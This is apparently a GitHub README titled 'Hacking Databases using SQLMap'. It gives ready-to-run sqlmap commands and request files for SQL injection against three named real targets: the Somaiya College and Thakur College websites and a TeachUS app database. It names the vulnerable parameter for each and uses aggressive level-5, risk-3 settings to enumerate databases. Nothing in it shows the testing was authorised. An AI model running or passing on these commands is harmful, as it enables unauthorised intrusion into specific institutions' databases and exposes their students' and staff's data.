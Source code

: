 # Hacking Databases using SQLMap

This repository showcases how I successfully tested the security of these databases by exploiting SQL vulnerabilities.

## Prerequisites

Before running the SQLMap commands, ensure you have the following installed:

- [SQLMap](http://sqlmap.org/)
- [Acunetix](https://www.acunetix.com/)
- Python 2.7 or Python 3.x

You will also need the request files provided in this repository:

- `somaiyaClg.txt`
- `thakur.txt`
- `teachus.txt`

These files contain the HTTP requests which is going to use to connect to the web server

## Clone Repository
```bash
git clone https://github.com/seanvishwakarma/database-hack.git
```

## How to Use

### 1. Somaiya College Website

The SQL injection vulnerability was found in the `id` parameter.

```bash
sqlmap -r somaiyaClg.txt -p id --batch -o --level 5 --risk 3 --dbs
```
![Somaiya College SQLMap Result](images/somaiyaClg.png)

### 2. Thakur College Website

For Thakur College, the vulnerability was found in the `password` parameter.

```bash
sqlmap -r thakur.txt -p password --batch -o --level 5 --risk 3 --time-sec=5 --dbs
```
![Thakur College SQLMap Result](images/thakur.png)


### 3. TeachUS App Database

The TeachUS app database was vulnerable through the college parameter.

```bash
sqlmap -r teachus.txt -p college --batch -o --level 5 --risk 3 --dbs
```
![TeachUS App SQLMap Result](images/teachus.png)

